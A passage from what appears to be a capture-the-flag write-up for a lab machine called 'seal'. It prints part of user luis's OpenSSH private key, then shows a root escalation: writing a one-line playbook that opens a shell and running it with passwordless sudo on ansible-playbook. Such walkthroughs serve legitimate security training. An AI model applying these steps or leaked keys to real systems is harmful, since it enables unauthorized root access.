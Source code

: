 ```bash
7Ag2WQOrF+PDhbbhes7lIBasx63R60ePmBWsID/DoCfTVpGqZprZJMXBGxeJ9fr/5fu+JB
JrYu404k0kID6/06E3b0LcNdvmGn1bRJAf/IqRJwCKA/weiTjneKT0zYF/ETD1h/d5kra6
m5ZzDlibaPWKS8YTON7/SOhFI3vIKfxHEq7xwwXsxBDM2UviG3D/oZ8OXpWnbi5rXU0jD0
wlpKSPYVxzVPZ43A/k0UfwPdFR6nai5WiZIAvc6UVwdtPeg1cRWHTi3I4Hjd63JwgBIUO+
VbBB1xPzR4DvM4w9qN3JwDs7DMkK6jV7T2vqh41Q3If09U40pQlsQBR8vziD8QbqRP5GxK
MtfnSR7kfoBKesjJX6hchFYVGw6soQAAAAMBAAEAAAGAJuAsvxR1svL0EbDQcYVzUbxsaw
MRTxRauAwlWxXSivmUGnJowwTlhukd2TJKhBkPW2kUXI6OWkC+it9Oevv/cgiTY0xwbmOX
AMylzR06Y5NItOoNYAiTVux4W8nQuAqxDRZVqjnhPHrFe/UQLlT/v/khlnngHHLwutn06n
bupeAfHqGzZYJi13FEu8/2kY6TxlH/2WX7WMMsE4KMkjy/nrUixTNzS+0QjKUdvCGS1P6L
hFB+7xN9itjEtBBiZ9p5feXwBn6aqIgSFyQJlU4e2CUFUd5PrkiHLf8mXjJJGMHbHne2ru
p0OXVqjxAW3qifK3UEp0bCInJS7UJ7tR9VI52QzQ/RfGJ+CshtqBeEioaLfPi9CxZ6LN4S
1zriasJdAzB3Hbu4NVVOc/xkH9mTJQ3kf5RGScCYablLjUCOq05aPVqhaW6tyDaf8ob85q
/s+CYaOrbi1YhxhOM8o5MvNzsrS8eIk1hTOf0msKEJ5mWo+RfhhCj9FTFSqyK79hQBAAAA
wQCfhc5si+UU+SHfQBg9lm8d1YAfnXDP5X1wjz+GFw15lGbg1x4YBgIz0A8PijpXeVthz2
ib+73vdNZgUD9t2B0TiwogMs2UlxuTguWivb9JxAZdbzr8Ro1XBCU6wtzQb4e22licifaa
WS/o1mRHOOP90jfpPOby8WZnDuLm4+IBzvcHFQaO7LUG2oPEwTl0ii7SmaXdahdCfQwkN5
NkfLXfUqg41nDOfLyRCqNAXu+pEbp8UIUl2tptCJo/zDzVsI4AAADBAOUwZjaZm6w/EGP6
KX6w28Y/sa/0hPhLJvcuZbOrgMj+8FlSceVznA3gAuClJNNn0jPZ0RMWUB978eu4J3se5O
plVaLGrzT88K0nQbvM3KhcBjsOxCpuwxUlTrJi6+i9WyPENovEWU5c79WJsTKjIpMOmEbM
kCbtTRbHtuKwuSe8OWMTF2+Bmt0nMQc9IRD1II2TxNDLNGVqbq4fhBEW4co1X076CUGDnx
5K5HCjel95b+9H2ZXnW9LeLd8G7oFRUQAAAMEAyHfDZKku36IYmNeDEEcCUrO9Nl0Nle7b
Vd3EJug4Wsl/n1UqCCABQjhWpWA3oniOXwmbAsvFiox5EdBYzr6vsWmeleOQTRuJCbw6lc
YG6tmwVeTbhkycXMbEVeIsG0a42Yj1ywrq5GyXKYaFr3DnDITcqLbdxIIEdH1vrRjYynVM
ueX7aq9pIXhcGT6M9CGUJjyEkvOrx+HRD4TKu0lGcO3LVANGPqSfks4r5Ea4LiZ4Q4YnOJ
u8KqOiDVrwmFJRAAAACWx1aXNAc2VhbAE=
-----END OPENSSH PRIVATE KEY-----
```

Use `luis`'s SSH key to login to the target and read the user flag.

---

## Luis to Root

`luis` is able to execute `/usr/bin/ansible-playbook` as `root` using `sudo`.

```bash
$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

According to [GTFOBins](https://gtfobins.github.io/gtfobins/ansible-playbook/), this can be abused to escalate privileges like so:

```bash
$ TF=$(mktemp)
$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
$ sudo ansible-playbook $TF
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

PLAY [localhost] *************************************************************************************************************

TASK [Gathering Facts] *******************************************************************************************************
ok: [localhost]

TASK [shell] *****************************************************************************************************************
```